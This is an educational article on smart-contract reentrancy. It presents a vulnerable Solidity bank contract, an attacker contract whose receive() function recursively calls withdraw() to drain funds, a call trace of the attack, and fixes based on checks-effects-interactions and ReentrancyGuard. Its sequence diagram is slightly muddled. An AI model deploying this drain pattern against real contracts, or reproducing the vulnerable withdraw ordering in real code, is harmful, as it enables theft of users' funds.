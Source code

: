 # Reentrancy Vulnerability in Smart Contracts: A Case Study

## Introduction

Reentrancy vulnerabilities have been a persistent threat in smart contract security, leading to significant financial losses in the past. This article examines a classic reentrancy vulnerability in a simple bank contract, demonstrating how it can be exploited and proposing methods to prevent such attacks.

## Vulnerability Explanation

The reentrancy vulnerability occurs when a contract function can be interrupted before it finishes executing and called again. This can happen when the contract sends Ether to an external address before updating its internal state. If the receiving address is a malicious contract, it can call back into the vulnerable contract before the first invocation completes, potentially draining funds or causing other unexpected behavior.

In our case, the VulnerableBank contract allows users to deposit and withdraw Ether. The vulnerability lies in the withdraw() function, which sends Ether to the user before updating their balance. This creates a window of opportunity for an attacker to call withdraw() multiple times before their balance is set to zero.

## Vulnerable Code

Let's examine the vulnerable part of the contract:

```solidity
function withdraw() public {
    uint256 balance = balances[msg.sender];
    require(balance > 0, "Insufficient balance");

    // Vulnerability: State is updated after the external call
    // This allows for potential reentrancy
    (bool success, ) = msg.sender.call{value: balance}("");
    require(success, "Transfer failed");

    // Balance is updated after the transfer
    balances[msg.sender] = 0;
}
```

The vulnerability stems from the order of operations:
1. The contract reads the user's balance.
2. It sends the Ether to the user.
3. Only after the transfer, it updates the user's balance to zero.

If the receiving address is a contract, it can execute code during the Ether transfer, allowing it to call withdraw() again before the balance is updated.

## Attack Explanation

The attack exploits this vulnerability through the following steps:

1. The attacker deploys a malicious contract (AttackerContract) that interacts with the vulnerable bank.
2. The attacker deposits 1 Ether into the bank.
3. The attacker calls the withdraw() function through their contract.
4. When the bank sends Ether to the attacker's contract, it triggers the receive() function.
5. The receive() function checks if the bank still has funds and calls withdraw() again.
6. This process repeats until the bank is drained of all its Ether.

Here's a sequence diagram illustrating the attack flow:

```mermaid
sequenceDiagram
    participant Attacker
    participant Malicious Contract
    participant Vulnerable Contract
    participant Bank Contract

    Attacker->>Malicious Contract: Deploy
    Attacker->>Vulnerable Contract: Deposit 1 ETH
    Attacker->>Malicious Contract: Attack()
    Malicious Contract->>Vulnerable Contract: withdraw()
    Vulnerable Contract->>Bank Contract: transfer(1 ETH)
    Bank Contract-->>Malicious Contract: fallback() triggered
    Malicious Contract->>Vulnerable Contract: withdraw() again
    Vulnerable Contract->>Bank Contract: transfer(1 ETH)
    Bank Contract-->>Malicious Contract: fallback() triggered
    Note over Malicious Contract,Vulnerable Contract: Loop continues until contract is drained
    Vulnerable Contract-->>Malicious Contract: All funds transferred
    Malicious Contract-->>Attacker: Withdraw stolen funds
```

The stack trace shows this recursive pattern:

```
├─ [122065] AttackerContract::attack{value: 1000000000000000000}()
│   ├─ [22437] VulnerableBank::deposit{value: 1000000000000000000}()
│   ├─ [89750] VulnerableBank::withdraw()
│   │   ├─ [82322] AttackerContract::receive{value: 1000000000000000000}()
│   │   │   ├─ [81548] VulnerableBank::withdraw()
│   │   │   │   ├─ [74120] AttackerContract::receive{value: 1000000000000000000}()
│   │   │   │   │   ├─ [73346] VulnerableBank::withdraw()
...
```

This trace shows the recursive calls between the VulnerableBank's withdraw() function and the AttackerContract's receive() function, continuing until all funds are drained.

## Attack Code

The key parts of the AttackerContract are:

```solidity
receive() external payable {
    if (address(bank).balance >= ATTACK_AMOUNT) {
        bank.withdraw();
    }
}

function attack() external payable {
    require(
        msg.value == ATTACK_AMOUNT,
        "Please send exactly 1 ether to start the attack"
    );
    bank.deposit{value: ATTACK_AMOUNT}();
    bank.withdraw();
}
```

The attack() function initiates the attack by depositing and then immediately withdrawing. The receive() function is called when the bank sends Ether, and it recursively calls withdraw() as long as the bank has funds.

## Fix Proposal

To fix this vulnerability, we need to implement the "checks-effects-interactions" pattern. This means we should update the contract's state before making any external calls. Here's a fixed version of the withdraw() function:

```solidity
function withdraw() public {
    uint256 balance = balances[msg.sender];
    require(balance > 0, "Insufficient balance");

    // Update the balance before making the transfer
    balances[msg.sender] = 0;

    // Transfer the funds
    (bool success, ) = msg.sender.call{value: balance}("");
    require(success, "Transfer failed");
}
```

By updating the balance to zero before making the transfer, we prevent any possibility of reentrancy. Even if the receiving contract tries to call withdraw() again, the balance will already be zero, and the transaction will fail.

Additionally, using the OpenZeppelin ReentrancyGuard is a good practice:

```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract SecureBank is ReentrancyGuard {
    // ... other code ...

    function withdraw() public nonReentrant {
        // ... function body ...
    }
}
```

The nonReentrant modifier ensures that the function cannot be re-entered.

## Conclusion

Reentrancy vulnerabilities continue to pose a significant threat to smart contract security. As demonstrated in this case study, even a simple oversight in the order of operations can lead to complete loss of funds. Developers must be vigilant in implementing proper security measures, such as the checks-effects-interactions pattern and using proven security libraries like OpenZeppelin